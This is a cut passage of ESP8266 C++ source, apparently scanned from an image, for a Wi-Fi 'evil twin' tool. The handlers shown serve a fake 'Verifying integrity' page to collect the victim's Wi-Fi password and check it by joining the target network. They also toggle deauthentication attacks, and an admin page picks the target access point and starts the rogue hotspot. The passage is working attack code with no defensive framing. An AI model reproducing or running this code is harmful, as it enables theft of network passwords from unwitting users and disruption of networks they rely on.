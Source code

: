     if (_correct != "") {
      _html += "</br><h3>" + _correct + "</h3>";
    }

    _html += "</div></body></html>";
    webServer.send(200, "text/html", _html);

  } else {

    if (webServer.hasArg("password")) {
      _tryPassword = webServer.arg("password");
      if (webServer.arg("deauth") == "start") {
        deauthing_active = false;
      }
      delay(1000);
      WiFi.disconnect();
      WiFi.begin(_selectedNetwork.ssid.c_str(), webServer.arg("password").c_str(), _selectedNetwork.ch, _selectedNetwork.bssid);
      webServer.send(200, "text/html", "<!DOCTYPE html> <html><script> setTimeout(function(){window.location.href = '/result';}, 15000); </script></head><body><center><h2 style='font-size:7vw'>Verifying integrity, please wait...<br><progress value='10' max='100'>10%</progress></h2></center></body> </html>");
      if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
      }
    } else {
      webServer.send(200, "text/html", index());
    }
  }

}

void handleAdmin() {

  String _html = _tempHTML;

  if (webServer.hasArg("ap")) {
    for (int i = 0; i < 16; i++) {
      if (bytesToStr(_networks[i].bssid, 6) == webServer.arg("ap") ) {
        _selectedNetwork = _networks[i];
      }
    }
  }

  if (webServer.hasArg("deauth")) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    } else if (webServer.arg("deauth") == "stop") {
      deauthing_active = false;
    }
  }

  if (webServer.hasArg("hotspot")) {
    if (webServer.arg("hotspot") == "start") {
      hotspot_active = true;

